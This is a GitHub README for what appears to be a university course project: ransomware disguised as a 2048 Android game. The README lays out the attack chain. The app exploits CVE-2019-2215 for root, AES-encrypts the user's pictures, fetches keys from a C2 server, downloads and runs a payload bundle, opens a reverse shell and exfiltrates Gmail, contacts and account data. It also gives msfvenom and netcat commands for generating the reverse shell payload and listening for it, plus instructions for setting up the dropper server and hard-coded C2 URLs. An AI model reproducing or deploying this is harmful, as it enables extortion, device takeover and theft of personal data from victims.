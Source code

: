 # Rootsmart 2.0 w/ cve-2019-2215 + Ransomware

### Disclaimer
This project is solely for educational purposes. This project utilise code from [rkshrksh/2048-Game](https://github.com/rkshrksh/2048-Game) and [kangtastic/cve-2019-2215](https://github.com/kangtastic/cve-2019-2215).

---

## Project Description

This project is part of Singapore Institute of Technology Mobile Security module. The project was done within 6 weeks and the aim of the project was to develop a malicious android application. By doing so, it helped us to learn how security mechanisms are implemented in an Android OS and how we can exercise OWASP Mobile Top 10:2017 M8 - Code Tampering.

The project is proof of concept to showcase a custom written ransomware that utilises AES encryption, weaponising cve-2019-2215, and also exfiltrating data from the infected device.

It is tested on Android 10 and Google Pixel 2 XL.

```
├── 2048-Game 					// Android Project Folder
├── 2048-keystore				// Test-Keystore
├── cve-2019-2215				// Modified cve-2019-2215
│	└── cve-2019-2215.c
├── dropper_server				// Dropper server directory 
│	├── cve-2019-2215			// shells.zip content before zipping
│	├── dropper_server.py		// Dropper server program
│	├── exfiltrated_data.log
│	├── masterkeys.txt
│	├── ncat.exe 				// Netcat windows binary - for Reverse shell listener
│	├── requirements.txt
│	├── shells.zip  			// shells.zip that is hosted in root of dropper server
│	└── venv
└── test_images    				// test_images for easy adb push <image.ext> /sdcard/Pictures
```


##### Attack Vector:

1. Install, run the application and grant permissions
2. Ransomware will AES encrypt all files in /sdcard/Pictures
3. Each file will be encrypted with a random generated key
4. Keys will be stored in /sdcard/keys.json where each key:value pair is filepath:key
5. GET HTTP to C2 server /get_mk to retrieve MasterKey and VictimID in response body
6. MasterKey will encrypt keys.json, VictimID will be stored in /sdcard/victimID.txt
7. The application will download shells.zip and unzip the contents
8. Execute cve-2019-2215 binary from the unzipped contents
9. A root shell process will be spawn and will run install.sh from the unzipped contents
10. Install.sh will execute rs.elf from the unzipped contents to send a reverse connection to attack server
11. The appliation will exfiltrate the device's gmail, user account information, and contacts.

---

## C2 (Command & Control) - Setup
For this test, ensure that the victim phone and the C2 server are in the same subnet (otherwise host C2 in public internet). There are 3 endpoints for the C2 server that can be found in dropper/dropper_server.py:

1. /process_command - GET to download shells.zip and run the cve-2019-2215 root exploit
2. /get_mk - GET to obtain the victimID:masterkey key-value pair to encrypt /sdcard/keys.json
3. /postData - POST exfiltrated gmail, contacts, account information

##### Reverse Shell Server
```bash
nc -lvnp 1337 # Ideally this should be the same IP as the dropper server
```

##### Dropper Server
```bash
# Generate rs.elf payload
msfvenom -p linux/aarch64/shell_reverse_tcp LHOST=<Attacker IP> LPORT=<Attacker Port> -f elf > rs.elf

# Better to run flask on Windows if WSL don't port forward localhost traffic to Windows Host
cd dropper
python3 -m venv venv # Create venv

# Activate venv
. venv/bin/activate # Linux
venv\Scripts\activate.bat # Windows
pip install -r requirements.txt --upgrade pip # Make sure host shell is root/Administrator

# Run C2 server
python3 dropper_server.py # WSL
python dropper_server.py # Windows
```

shells.zip in /dropper
1. Go to dropper/cve-2019-2215 folder
2. After creating rs.elf, zip rs.elf + cve-2019-2215, install.sh
3. Rename zip file to shells.zip
4. Move shells.zip to /dropper

## Modify the following before compiling APK

Java Classes
```java
// File : 2048-Game/app/src/main/java/aarkay/a2048game/Temproot.java
// Change IP and port according to dropper server IP and port
String URL = "http://192.168.157.73:8080/process_command"; // Line 19

// File : 2048-Game/app/src/main/java/aarkay/a2048game/Encrypt.java
// Change IP and port according to dropper server IP and port
String URL = "http://192.168.157.73:8080/get_mk"; // Line 45

// File : 2048-Game/app/src/main/java/aarkay/a2048game/PostData.java
// Change IP and port according to dropper server IP and port
String urlString = "http://192.168.157.73:8080/postData"; // Line 32
```





